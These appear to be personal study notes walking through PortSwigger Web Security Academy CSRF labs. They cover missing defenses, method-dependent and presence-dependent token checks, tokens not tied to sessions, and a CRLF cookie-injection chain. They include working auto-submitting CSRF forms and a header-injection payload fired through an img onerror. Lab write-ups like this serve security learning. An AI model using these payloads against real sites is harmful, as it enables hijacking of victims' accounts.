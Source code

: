 Requirement for csrf

	• Relevant action
	• Cookie based session handling
	• No unpredictable request parameters 

Can be automated using  burpesuite pro edition 



```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
	 <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> 
<script> 
	document.forms[0].submit();
 </script>
```

From <https://portswigger.net/web-security/csrf/lab-no-defenses> 


```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
**CSRF where token validation depends on request method**




Intercept we notice a csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c04ead97-a67a-46ac-9cec-52adef46971d)


Remove csrf token we get a response that we need to change it
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6c89d56c-5b43-4c9b-a612-d9268239279b)



Changine request to get and removing email change we can send it and get a 302 response
"Follow redirection" we notice that we changed the email without a csrf token
```
<form action="https://0a05007c04bf708c81e28a7200120078.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet2@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

**CSRF where token validation depends on token being present**

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1b0c0949-c707-4f48-ab19-527524cf985e)


Deleting csrf parameter result in the 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/771e5618-9d4d-4112-af7c-a90bee8ca4e2)


Exploit: 
```
<form method="POST" action="https://0aa1003d040b2b3f81817a48001f00f2.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="vi@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**CSRF where token is not tied to user session**

Cant changed email when removing csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7f8f8bc7-fb21-49e1-98a5-c9e787f3e597)

Cant change to get request either to change email
See if csrf token is tied to user session
Check by logging into another user account and copying there csrf token 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b26f4b63-6f22-490f-aee2-e96c485aae5c)

 



Replacing the csrf parmeter we get a 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/16b7e052-d04d-40c3-a6b2-b7a3357a4789)



CSRF token is used every time we changed an account so if we want to change another one we need another csrf token 
Our exploit:
```
<html>
    <body>
    <script> history.pushState(' ',' ', '/')</script>
    <form action="https://0a08004803a6fb1a8040b860005c004f.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="vffasf@gmail.com"/>
        <input type="hidden" name="csrf"  value="aIOCt2aXj52tiS7BFW5EVCy8k7UG8siS" />
        <input type="submit" value="submit request"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
    </body>
</html>
```

**CSRF where token is tied to non-session cookie**

We got a csrfkey
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0db13860-e234-45b5-a8cc-7198ecc73da2)


Looks like csrf key is tied to session key 

Testing csrf token and csrf key 
```
1. Check if csrf token is tied to the csrf cookie 
2. Submit a valid csrf token from another user
```
	
Test case 1 fail
Changing csrf parameter doesn't give 302 response

Test case 2 fail
Using another user csrf 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/310db429-3ca8-4448-a95d-093e30d6ee56)


Checking other cookie parameter

Cookie: Status 302
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ac9e04c0-338c-41d5-b335-b420fae55b48)

```
session=0HKiqjYhk7G0eFu5p388lxZHhaQKP0ny; 
csrfKey=fbdsO5lxQm8jH4t5GvzCOG0nnDVlfcPC
```
	
	
Exploit:
Case 2 is met 
To exploit
```
1.  inject a csrfKey cookie in the user session (http header injection)
2. Send a csrf attack to the victim with a known csrf token 

?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY
Get a 302 when we set the key from intercepting search
``` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3e0a38e5-9333-444e-a6bd-a4d89399af54)


Exploit:

```
<html>
    <body>
    <script> history.pushState('','', '/')</script>
    <form action="https://0ab6004a037bf6198423a1cb00b4004d.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="v@gmail.com"/>
        <input type="hidden" name="csrf"  value="aIOCt2aXj52tiS7BFW5EVCy8k7UG8siS" />
        <input type="submit" value="submit request"/>
    </form>
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```


























